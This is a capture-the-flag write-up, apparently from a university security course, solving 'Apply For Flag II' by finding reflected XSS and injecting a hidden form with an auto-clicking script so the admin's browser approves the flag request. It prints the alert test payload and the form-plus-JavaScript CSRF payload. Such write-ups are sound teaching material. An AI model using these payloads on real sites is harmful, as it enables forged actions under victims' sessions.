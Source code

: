# Apply For Flag II

## Recon

In this challenge we are given a website with an input field. If we write in there and submit it, the input gets reflected. This automatically gave us some ideas to test. 

The first one was SSTI (Server Side Template Injection), but by using [Wappalyzer](https://www.wappalyzer.com/), we found that the tech stack used was not vulnerable to this.

The second one was XSS (Cross-Site Scripting). To test this we submitted the payload `<script>alert("H4X0R")</script>`, hoping that there were no filters difficulting our way.

In fact this was the case:

![Initial XSS Payload](images/apply-for-flag-2/xss_initial_payload.png)

We also noticed that the server seemed to be re-rendering from time to time, since even if we checked the alert it would appear again.

Furthermore, we noticed in the text `The admin will use this page to check your request.`, which had an hyperlink to `http://ctf-fsi.fe.up.pt:5005/request/<request_id>`.

When we went to this page, we saw a weird disabled button with the text `Give the flag`:

![Give The Flag Button](images/apply-for-flag-2/give_the_flag_page.png)

When we inspected the html of this page, we notied that this button would essentially redirect us to a `/approve` endpoint if clicked:

```html
<form method="POST" action="/request/<request_id>/approve" role="form">
    <div class="submit">
        
        <input type="submit" id="giveflag" value="Give the flag" disabled="">
        
    </div>
</form>
```


## Exploitation

So, knowing all this, after some time of trial and error, we tried to develop a payload that would go to the wanted resource and we injected a javascript snippet to click the button.

Note: We did already know the `<request_id>` from the beginning, since it was given in plaintext in the homepage.


```html
<form method="POST" action="http://ctf-fsi.fe.up.pt:5005/request/<request_id>/approve" role="form">          
<div class="submit">                  
  <input type="submit" id="giveflag" value="Give the flag">   
</div>  
</form>    

<script type="text/javascript">         
 document.querySelector('#giveflag').click();  
</script>
```

Initially this didn't work as we got an `access denied`. So, we spent a lot of time trying to refactor the script without success.

Only when we tried to disable the javascript in order to turn off all the frontend (superficial) protections, that we finally had success and got the flag.
